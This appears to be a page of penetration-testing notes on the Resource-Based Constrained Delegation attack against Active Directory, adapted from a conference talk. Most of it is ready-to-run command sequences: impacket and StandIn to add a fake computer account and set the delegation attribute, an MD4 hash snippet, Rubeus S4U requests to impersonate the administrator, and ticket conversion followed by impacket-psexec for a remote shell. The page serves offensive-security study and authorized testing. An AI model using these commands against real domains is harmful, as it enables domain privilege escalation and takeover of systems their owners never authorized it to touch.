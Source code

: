 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Resource-Based

{% hint style="info" %}
All information found below has been adapted from [Attl4s](https://attl4s.github.io/) [video-presentation](https://www.youtube.com/watch?v=vlKwCTvp5\_w) and its corresponding [slide deck](https://attl4s.github.io/assets/pdf/You\_do\_\(not\)\_Understand\_Kerberos\_Delegation.pdf).
{% endhint %}

## TL;DR

The attack targets a domain computer (SPN related to the target domain computer).

### Prerequisites

1. A domain account with `WRITE` access to the target computer for setting the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to it.
2. Permission to create new computer accounts (`MachineAccountQuota`).
3. LDAP(S) (`389`/`636`) and SAMR (`445`) access to the DC.
4. Kerberos (`88`) access to the DC.

### Attack

1. Create a fake computer.
2. Set `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target.
3. Request impersonated Service Tickets (`S4U`) for the target computer.

Impersonated ST[^1]s may allow high-level access to services on the target like CIFS, HTTP, etc, if the impersonated account has privileges.

## Linux

{% code overflow="wrap" %}
```bash
# add a machine account
impacket-addcomputer -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-ip <ip> '<domain/user:pass>'
# set rbcd attribute
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'dc$' -action 'write' '<domain/user:pass>' -dc-ip 10.10.11.174
# generate ST for the admin account
impacket-getST -spn 'cifs/<fqdn>' -impersonate 'administrator' 'domain/ATTACKERSYSTEM$:Summer2018!'
```
{% endcode %}

For an example of the above process check [Support](../../../../../boxes/boxes/easy/support.md#rbcd).

## Windows

```powershell
# create a computer account
.\StandIn.exe --computer <name> --make
# get the SID of the computer account
Get-ADComputer -Filter * | Select-Object Name, SID
# set the RBCD attribute
.\StandIn.exe --computer <dc> --sid <sid>
```

We need the value of the password md4-encrypted for Rubeus.

```bash
python3
>>> import hashlib,binascii
>>> hash = hashlib.new('md4', "<pass>".encode('utf-16le')).digest()
>>> print(binascii.hexlify(hash))
```

{% code overflow="wrap" %}
```powershell
# generate the ST
.\Rubeus.exe s4u /user:<name> /rc4:<value> /impersonateuser:administrator /msdsspn:cifs/<fqdn> /nowrap /ptt
```
{% endcode %}

Although the ticket is generated, it does not work locally. Copy paste the b64 encoded block locally, decode it, convert it, and then use it.

```bash
# paste the ticket
nano ticket.b64
# decode it
cat ticket.b64 | base64 -d > ticket.kirbi
# convert it from kirbit to ccache for Linux usage
impacket-ticketConverter ticket.kirbi ticket.ccache
# export the ticket
export KRB5CCNAME=<ticket-path>
# use the ticket
impacket-psexec -k -no-pass <domain>/administrator@<fqdn> -dc-ip <ip>
```

## Resources

{% tabs %}
{% tab title="Demo" %}
{% embed url="https://youtu.be/xMTCZt5DRB0?t=504" %}
{% endtab %}

{% tab title="Deep Dive" %}
{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html" %}
{% endtab %}

{% tab title="Video-Presentation" %}
{% embed url="https://www.youtube.com/watch?v=vlKwCTvp5_w" %}
{% endtab %}
{% endtabs %}



[^1]: Service Ticket
